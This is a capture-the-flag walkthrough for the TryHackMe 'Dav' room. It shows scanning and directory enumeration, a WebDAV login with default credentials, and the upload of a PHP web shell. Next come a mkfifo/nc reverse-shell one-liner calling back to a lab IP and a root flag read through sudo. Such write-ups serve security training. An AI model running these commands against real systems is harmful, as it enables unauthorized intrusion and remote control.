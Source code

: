 # Dav

**Room Link:** [https://tryhackme.com/room/bsidesgtdav](https://tryhackme.com/room/bsidesgtdav)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

We were able to login with the following default credentials

```
Username: wampp
Password: xampp
```

<figure><img src="../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

I tried cracking the hash but it wasn't working

**Kali**

```
hashcat -m 1600 passwd.dav /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

Using the credentials found earlier I was able to access the site using cadaver and upload a shell.

**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cp p0wny-shell/shell.php shell.php
```

**Kali**

<pre><code><strong>cadaver http://$VICTIM:80/webdav
</strong>Username: wampp
Password: xampp
dav:/webdav/> put shell.php shell.php
</code></pre>

<figure><img src="../../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

**Kali**

<pre><code><strong>nc -lvnp 1337
</strong></code></pre>

**Victim**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.100.133 1337 >/tmp/f
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

I first tried reading shadow to crack the users credentials but it wasn't working so I ended up just reading the flag.

**Victim**

```
LFILE=/root/root.txt
sudo cat "$LFILE"
```























































